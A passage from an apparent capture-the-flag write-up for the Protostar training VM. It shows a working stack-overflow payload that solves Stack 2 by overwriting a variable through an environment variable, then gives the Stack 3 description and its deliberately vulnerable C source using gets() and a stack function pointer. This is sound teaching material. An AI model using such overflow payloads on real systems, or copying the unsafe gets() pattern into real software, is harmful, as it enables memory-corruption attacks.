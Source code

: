 After inspecting the stack, we need to assign "GREENIE" with a padding of 16 * 4 bytes, followed by 4 more bytes of `0x0d0a0d0a` in little-endian format.

Done, we pass the level :D

``` shell
user@protostar:/opt/protostar/bin$ export GREENIE=$(python -c 'print "A" * 16 * 4 + "\x0a\x0d\x0a\x0d"')
user@protostar:/opt/protostar/bin$ ./stack2
you have correctly modified the variable
```

## Stack 3

Description:

>Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)
>
>Hints
>
>- both gdb and objdump is your friend you determining where the win() function lies in memory.
>
> This level is at /opt/protostar/bin/stack3

Source code:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
